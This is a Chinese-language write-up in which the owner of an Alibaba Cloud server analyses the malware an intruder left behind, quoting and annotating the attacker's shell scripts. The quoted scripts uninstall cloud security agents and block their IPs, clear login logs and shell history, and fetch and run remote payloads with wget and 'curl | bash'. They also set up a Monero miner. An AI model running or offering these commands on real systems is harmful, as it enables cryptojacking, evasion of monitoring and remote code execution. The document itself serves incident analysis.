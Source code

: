 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)

黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```

## bk.sh，推测是靶机脚本

### if语句检测环境内容

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [https://www.pianshen.com/article/37962128580/](https://www.pianshen.com/article/37962128580/)

```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi
```

### if curl、lscpu、 ! sudo -n true

### echo信息

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

